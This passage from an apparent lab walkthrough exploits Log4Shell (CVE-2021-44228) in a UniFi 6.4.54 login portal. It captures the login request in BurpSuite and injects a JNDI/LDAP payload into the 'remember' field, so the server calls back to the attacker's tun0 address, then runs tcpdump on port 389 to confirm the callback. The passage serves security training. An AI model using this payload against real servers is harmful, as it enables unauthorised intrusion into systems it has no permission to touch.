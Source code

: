 Upon accessing the page using a browser we are presented with the UniFi web portal login page and the version number is 6.4.54 . If we ever come across a version number it’s always a great idea to research that particular version on Google. A quick Google search using the keywords UniFy 6.4.54 exploit reveals an article that discusses the in-depth exploitation of the CVE-2021-44228 vulnerability within this application.

If you would like to learn more about the Log4J vulnerability we have a great Blog post about it.

This Log4J vulnerability can be exploited by injecting operating system commands (OS Command Injection), which is a web security vulnerability that allows an attacker to execute arbitrary operating system commands on the server that is running the application and typically fully compromise the application and all its data.

To determine if this is the case, we can use FoxyProxy after making a POST request to the /api/login endpoint, to pass on the request to BurpSuite, which will intercept it as a middle-man. The request can then be edited to inject commands. We provide a great module based around intercepting web requests. Intercepting Web Requests

First, we attempt to login to the page with the credentials test:test as we aren’t trying to validate or gain access. The login request will be captured by BurpSuite and we will be able to modify it.

Before we modify the request, let's send this HTTPS packet to the Repeater module of BurpSuite by pressing CTRL+R .

Exploitation

The Exploitation section of the previously mentioned article mentions that we have to input our payload into the remember parameter. Because the POST data is being sent as a JSON object and because the payload contains brackets {} , in order to prevent it from being parsed as another JSON object we enclose it inside brackets " so that it is parsed as a string instead.

We input the payload into the remember field as shown above so that we can identify an injection point if one exists. If the request causes the server to connect back to us, then we have verified that the application is vulnerable.

```
  ${jndi:ldap://{Tun0 IP Address}/whatever}
```

JNDI is the acronym for the Java Naming and Directory Interface API . By making calls to this API, applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

LDAP is the acronym for Lightweight Directory Access Protocol , which is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389 .

After we hit "send" the "Response" pane will display the response from the request. The output shows us an error message stating that the payload is invalid, but despite the error message the payload is actually being executed.

Let's proceed to starting tcpdump on port 389 , which will monitor the network traffic for LDAP connections.

Open up another terminal and type:

```
  sudo tcpdump -i tun0 port 389
```
